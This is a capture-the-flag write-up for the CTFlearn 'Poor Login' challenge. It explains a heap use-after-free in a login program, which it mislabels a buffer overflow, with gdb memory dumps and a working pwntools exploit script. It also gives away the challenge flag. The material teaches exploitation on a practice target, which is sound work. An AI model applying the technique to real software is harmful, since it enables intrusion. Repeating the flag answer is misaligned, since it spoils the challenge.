

## Poor Login
The main idea finding the flag using Buffer Overflow.

#### Step-1:
After we download `login.tar.gz` from the cloud, we try to unzip that and we find a directory called `pwn-login` which has 2 files in it `login.c` and its executable `login`.

#### Step-2:
The program allows us to login, sign out, print flag, lock and restore user. Login `malloc` a block of memory on heap, it takes the 31 bytes input for username, adds 1 byte for end of string, allocated user is pointed to by `curr` pointer. We then sign out free the address that `curr` points towards. Then, lock user operation makes `save` pointer points to same address as `curr` does, while restoring operation does the opposite, it points `curr` to address pointed to by `save`. If `admin` field is set print flag operation call `system` to print out the flag, otherwise, it allows us to input a fake one. 

```c
struct creds {
  void *padding;
  char name[32];
  int admin;
};

struct creds *curr;
struct creds *save;

char *fake_flag;
```

#### Step-3:
If we login the first time with username `aaaaaaaabbbbbbbbccccccccddddddd`, we see the registers value as follows (as per gdb).

```bash
0x5555556032a0: 0x0000000000000000      0x6161616161616161
0x5555556032b0: 0x6262626262626262      0x6363636363636363
0x5555556032c0: 0x0064646464646464      0x0000000000000000
0x5555556032d0: 0x0000000000000000      0x0000000000020d31
0x5555556032e0: 0x0000000000000000      0x0000000000000000
```
Lock user to make `save` point to `curr`, logout current user to free `curr`, but `save` pointer still points to address `0x5555556032a0`.

```bash
0x5555556032a0: 0x0000000000000000      0x0000555555603010
0x5555556032b0: 0x6262626262626262      0x6363636363636363
0x5555556032c0: 0x0064646464646464      0x0000000000000000
0x5555556032d0: 0x0000000000000000      0x0000000000020d31
0x5555556032e0: 0x0000000000000000      0x0000000000000000
```

We then finally, print flag now we are allowed to input a fake flag, `fake_flag` pointer will be allocated an area that previously freed and pointed to by `save` pointer. We need to input enough bytes to cover the struct so that `admin` field could be set to 1.

```bash
0x5555556032a0: 0x3131313131313131      0x3131313131313131
0x5555556032b0: 0x3131313131313131      0x3131313131313131
0x5555556032c0: 0x3131313131313131      0x3131313131313131
0x5555556032d0: 0x000000000000000a      0x0000000000020d31
0x5555556032e0: 0x0000000000000000      0x0000000000000000
```

#### Step-4:
Now we restore user to reuse data pointed to by `save` pointer. Print again flag, as this moment the `admin` field is set to 1, we are able to get to the call to `system` function.

```cmd
*** WINBLOWS LOGIN *********
1. Login into user.
2. Sign out.
3. Print flag.
4. Lock user.
5. Restore user.
> 3
Here's your flag:
[Detaching after vfork from child process 8343]
/bin/cat: /flag.txt: No such file or directory
```

#### Step-5:
In order to iterate through the operations on the server to get the flag, we write a small script `exploit.py`, which helps us to overflow that buffer to print out the flag.

```py
import pwn

host = "thekidofarcrania.com"
port = 13226
target = "./pwn-login/login" 

class Menu:

    def __init__(self, remote):
        if remote:
            self.pr = pwn.connect(host, port)
        else:
            self.pr = pwn.process(target)

    def login(self, name):
        self.pr.sendlineafter("> ", "1")
        self.pr.sendlineafter("Username: ", name)

    def sign_out(self):
        self.pr.sendlineafter("> ", "2")

    def print_flag(self, flag):
        self.pr.sendlineafter("> ", "3")
        line = self.pr.readline()
        if line.startswith(b"You are not admin."):
            self.pr.sendline(flag)
        else:
            print(line)
            print(self.pr.readline())

    def lock_user(self):
        self.pr.sendlineafter("> ", "4")

    def restore_user(self):
        self.pr.sendlineafter("> ", "5")
        
def exploit(remote):

    menu = Menu(remote)

    try:
        menu.login('A'*31)
        menu.lock_user()
        menu.sign_out()
        menu.print_flag(b'\x01'*40)
        menu.restore_user()
        menu.print_flag("")
    except Exception as ex:
        print(ex)
    finally:
        menu.pr.close()

exploit(True)
```

#### Step-6:
Executing the above script using the command `python3 exploit.py` gives us the flag as follows:



#### Step-7:
Finally the flag becomes:
`CTFlearn{I_sh0uldve_done_a_ref_counter!!_:PPPPP}`